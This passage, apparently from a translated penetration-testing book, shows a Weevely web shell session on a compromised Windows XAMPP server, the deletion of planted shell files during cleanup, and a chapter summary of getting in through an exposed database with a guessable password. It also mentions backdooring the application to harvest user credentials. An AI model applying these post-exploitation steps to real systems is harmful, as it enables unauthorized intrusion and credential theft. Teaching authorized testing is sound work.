[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.
weevely>

```

我们可以在 Weevely shell 中发出命令，这些命令将直接传递给被攻陷的主机：

```
weevely> **whoami**
ECORP-PRD-API01\Administrator
ECORP-PRD-API01:C:\xampp\htdocs\xampp $
```

获取 Weevely shell 后的第一步是删除之前创建的系统通行 Web shell `xampp.php` 文件，操作如下：

```
ECORP-PRD-API01:C:\xampp\htdocs\xampp $ **del xampp.php**

```

此时，我们可以自由地在服务器上移动，收集任何可以在攻击后续阶段使用的信息。我们完全控制服务器，如果需要，可以运行更强大的反向 shell，例如 Meterpreter。

即使被攻陷的服务器与网络的其他部分隔离，我们仍然能够访问应用程序代码。我们可以通过后门方式收集经过身份验证用户的网络凭证，然后进一步攻击公司网络。这实际上取决于参与的范围。

# 清理

如前所述，一旦任务完成，我们必须确保清除任何可能让客户暴露的遗留物。在此次攻击中，我们创建了三个文件，这些文件可能被用来攻击客户。尽管不太可能有人能利用我们的 Weevely 外壳，但删除任何遗留物是明智的。我们创建的`phpinfo.php`测试文件也应该被删除。虽然它不提供任何远程访问，但它显示的信息可能被用来进行攻击。

就像我们查询 MySQL 变量以找出应用程序在磁盘上的位置一样，攻击者可以利用`phpinfo()`的输出，改进本地文件包含攻击的成功率，如下所示：

```
ECORP-PRD-API01:C:\xampp\htdocs\xampp $ **del test.php phpinfo.php**
ECORP-PRD-API01:C:\xampp\htdocs\xampp $ **dir**
[-][channel] The remote backdoor request triggers an error 404, please verify its availability
[-][channel] The remote backdoor request triggers an error 404, please verify its availability
ECORP-PRD-API01:C:\xampp\htdocs\xampp $
```

一旦我们移除了`test.php`外壳，Weevely 客户端将失去连接，并显示前面代码块中的`404`错误信息。

### 注意

在摧毁网络中的任何持久性之前，最好先完成报告。

# 资源

参考以下资源以获取有关渗透测试工具和技术的更多信息：

+   Mitre 提供了一个方便的网站，列出了所有可用的 CVE：[`cve.mitre.org/`](http://cve.mitre.org/)

+   Weevely 文档和最新代码可以在 GitHub 上找到：[`github.com`](https://github.com)

# 总结

在本章中，我们继续展示了始终做好安全工作是多么困难。不幸的是，这一直是，也将永远是，大多数公司的现实。然而，作为专业攻击者，我们却在这一点上茁壮成长。

在我们的场景中，我们没有直接攻克应用程序，而是花费了大量时间与 API 进行交互，寻找破坏它的方法。相反，我们假设大部分的安全加固工作都花在了应用程序本身上，并且我们依赖于这样一个事实：显然，保护服务器或开发环境并保持其安全是一项困难的任务。

通常，应用程序开发生命周期倾向于将开发人员和管理员的注意力集中在应用程序代码本身，而忽视了辅助系统控制。操作系统没有打补丁，防火墙完全开放，开发数据库实例暴露了应用程序，容易遭受一系列简单但有效的攻击。

在本章中，我们探讨了以其他方式攻克目标应用程序的方法。通过使用 Nmap 扫描应用程序服务器，我们发现一个暴露的数据库服务，其配置了一个容易猜测的密码。通过访问该相邻服务，我们能够在服务器上执行代码，最终访问目标应用程序及更多内容。

在下一章中，我们将探讨高级暴力破解技术以及如何在隐蔽性至关重要的任务中保持低调。
